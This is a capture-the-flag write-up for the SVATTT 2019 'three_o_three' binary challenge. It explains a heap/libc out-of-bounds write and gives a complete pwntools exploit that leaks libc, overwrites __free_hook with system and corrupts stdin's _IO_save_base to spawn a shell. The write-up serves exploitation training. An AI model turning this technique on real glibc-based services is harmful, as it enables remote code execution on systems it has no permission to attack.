






# SVATTT 2019 - three_o_three

### Reference source:

https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf

---

You can download challenge file here: [three_o_three.zip](three_o_three.zip)

The zip will contain 8 files:
- three_o_three/
- three_o_three/Dockerfile
- three_o_three/xinetd
- three_o_three/docker-compose.yml
- three_o_three/share/
- three_o_three/share/three_o_three
- three_o_three/share/flag.txt
- three_o_three/share/run.sh

The libc maybe different but the same payload still can get you a shell so I think it's the correct way. Download the zip then extract, go to folder `three_o_three` and run `docker-compose build` to build docker image. After done, run `docker-compose up` to make it live locally.

You can also get the libc from docker with this command:

```bash
$ docker ps
b63a96b362f5   docker_user   "/usr/sbin/xinetd -d…"   4 seconds ago   Up Less than a second   0.0.0.0:9999->9999/tcp   docker_user_1

$ docker cp b63a96b362f5:/lib/x86_64-linux-gnu/libc-2.27.so .
```

And we get the libc. Using `pwninit` to patch binary and we can get started (You can as well turn off docker now and re-run when your script works, that will save your memory a lot)!

# 1. Find bug

First, let's check the basic information of challenge file:

```bash
$ file three_o_three
three_o_three: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=616e1b6c4f5ab78791e0b6a6292733dfce68d785, not stripped

$ checksec three_o_three
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This is a 64-bit file without being stripped but with all the protection turned on except canary, which means we cannot change any @got from the binary.

Next, we will decompile the file with ghidra to get the flow. There is just `main` function with renamed variable:



The program first ask for size to malloc with format string `%lu`, then malloc with that size and assign the address of chunk to `p`. Then it will ask for offset and value, then set `p[offset] = value` or as decompiler show `*(p + offset * 8) = value`.

But here is the interesting bug, the size to malloc is unlimited. That means we can malloc a chunk larger than `0x21000`, which is the range of heap. And if that chunk is larger than the topchunk size, or larger than heap range (to make sure), we can have a chunk near by libc address:



Look at the size we will malloc: `0x23000`, it's larger than heap range. Let's make it malloc to see the bug:





That's not heap address. That's the address near libc with size is `0x24000`. That means we can get the address of libc easily. 

That's all bug we can find. Let's move on!

# 2. Idea

What can we do with just a libc address? What should we change in range of libc address? At first glance, I think we will attack stdin or stdout because those structure are writable. 

When we look at the flow, we can see that after it malloc, it just `scanf` and `write`. `write` doesn't use stdout, while `scanf` use stdin --> Attack stdin.

Next, I thought we will attack structure of vtable (`_IO_file_jumps`) of stdin but then realized it's not writable, we cannot change value of `_IO_file_jumps`, we can only change the address of vtable in stdin. But that's not neccessary.

I came up with a new idea. I can see that `scanf` will execute [`__uflow`](https://code.woboq.org/userspace/glibc/libio/genops.c.html#__uflow) and then [`_IO_file_underflow`](https://elixir.bootlin.com/glibc/glibc-2.31/source/libio/fileops.c#L486) in vtable and finally is `read` in vtable. 

Analyzing the source of `__uflow`, we can see this code:

```c
int __uflow(FILE * fp) {
    ...
    if (_IO_have_markers(fp)) 
    {
        ...
    } 
    else if (_IO_have_backup(fp))
        _IO_free_backup_area(fp);
    ...
}
libc_hidden_def(__uflow)
```

With [`_IO_have_backup`](https://code.woboq.org/userspace/glibc/libio/libioP.h.html#528) is:

```c
#define _IO_have_backup(fp) ((fp)->_IO_save_base != NULL)
```

That means it will check if `(fp)->_IO_save_base` is NULL or not. If it's not null, then calls [`_IO_free_backup_area`](https://code.woboq.org/userspace/glibc/libio/genops.c.html#_IO_free_backup_area) with source as follows:

```c
void
_IO_free_backup_area(FILE * fp) {
    if (_IO_in_backup(fp))
        _IO_switch_to_main_get_area(fp); /* Just in case. */
    free(fp -> _IO_save_base);
    fp -> _IO_save_base = NULL;
    fp -> _IO_save_end = NULL;
    fp -> _IO_backup_base = NULL;
}
libc_hidden_def(_IO_free_backup_area)
```

That means it will free `fp -> _IO_save_base`. Because we have libc address, we can change anything inside of libc which are writable. The idea is to change `__free_hook` to `system` because we want it to execute `system("/bin/sh")`.

The next thing we want to change is `fp -> _IO_save_base` of stdin (because `scanf` use stdin) to address of string `/bin/sh` in libc so that when it `free(fp -> _IO_save_base)`, it will execute `system("/bin/sh")`

Summary:
- Stage 1: Leak libc
- Stage 2: Change `__free_hook`
- Stage 3: Change `fp -> _IO_save_base` of stdin

# 3. Exploit

### Stage 1: Leak libc

First, let's write a script and send to the program the size of `0x23000`:

```python
from pwn import *

libc = ELF('libc-2.27.so', checksec=False)
context.binary = exe = ELF('./three_o_three_patched', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
# p = remote('127.0.0.1', 9999)

input(str(p.pid))
p.sendlineafter(b'Size:', f'{0x23000}'.encode())
libc_leak = int(p.recvline()[:-1].split(b'0x')[1], 16)
log.info('Libc leak: ' + hex(libc_leak))

p.interactive()
```

And we attach with gdb to calculate the libc base from the leak address:



So the leak address is `0x7f5b0b3e4010`. We will type `vmmap` (gdb-gef) to list all the address and then calculate the libc base address:

```gdb
gef➤  vmmap
...
0x00563f15fc6000 0x00563f15fe7000 0x00000000000000 rw- [heap]
0x007f5b0adf0000 0x007f5b0afd7000 0x00000000000000 r-x /home/nguyenhuutri/CTF/svattt/svattt2019/three_o_three/libc-2.27.so
0x007f5b0afd7000 0x007f5b0b1d7000 0x000000001e7000 --- /home/nguyenhuutri/CTF/svattt/svattt2019/three_o_three/libc-2.27.so
...

gef➤  p/x 0x7f5b0b3e4010 - 0x007f5b0adf0000
$2 = 0x5f4010
```

Nice! Let's get the libc base address now:

```python
libc.address = libc_leak - 0x5f4010
log.info('Libc base: ' + hex(libc.address))
```

### Stage 2: Change `__free_hook`

Now, with the libc base address, we can calculate the offset to make `p + offset*8` equal to address of `__free_hook`. The problem here is that, the leak address is much higher than the libc base address so how can we make `p + offset*8` point to `__free_hook`?

The answer is simple, that is we will make an integer overflow. Let's imagine that with the address leak we get above and with a large offset, `p + offset*8` might give us something like `0x10000000000000000` (9 bytes in total). But the most significant byte `0x1` is not fit so that byte will be removed, leave `0x0000000000000000` (or `0x0`) and we made an integer overflow!

So with the offset, we will input a negative number although it read unsigned long number. So the code we will use to assign `system` to `__free_hook` is:

```python
offset = int(((libc.sym['__free_hook']) - libc_leak) / 8)
value = libc.sym['system']
p.sendlineafter(b'offset:', f'{offset}'.encode())
p.sendlineafter(b'value:', f'{value}'.encode())
```

### Stage 3: Change `fp -> _IO_save_base` of stdin

For this stage, we just do the same as stage 2:

```python
offset = int(((libc.sym['_IO_2_1_stdin_'] + 72) - libc_leak) / 8)
value = next(libc.search(b'/bin/sh'))
p.sendlineafter(b'offset:', f'{offset}'.encode())
p.sendlineafter(b'value:', f'{value}'.encode())
```

Run again whole script and we can get the shell when running locally. You now can try with docker but remember to change the libc base calculation (I dunno why does it happen) from:

```python
libc.address = libc_leak - 0x5f4010    # Not docker
```

To

```python
libc.address = libc_leak - 0x5f2010    # When connect to docker
```

Full script: [solve.py](solve.py)

# 4. Get flag



This is a flag I created for fun =)))

`JHT{H3_hE_y0U_M@d3_1T_7b1d0e66e0e68b37367b20e01405a893}`